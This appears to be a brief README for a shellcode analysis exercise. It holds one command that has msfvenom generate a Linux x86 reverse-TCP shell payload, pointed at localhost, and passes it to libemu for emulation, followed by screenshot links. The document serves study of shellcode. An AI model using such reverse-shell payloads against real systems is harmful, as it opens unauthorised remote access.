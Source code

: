 # Exercise 2


```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" bindshell | tee libemu_res/libemu_res.txt
```

Get Argc value: 	https://forum.nasm.us/index.php?topic=889.0


![Screenshot](images/1.png)

![Screenshot](images/2.png)

![Screenshot](images/3.png)

![Screenshot](images/resd_problem/1.png)

![Screenshot](images/resd_problem/2.png)

![Screenshot](images/resd_problem/3.png)

![Screenshot](images/resd_problem/4.png)

![Screenshot](images/resd_problem/5.png)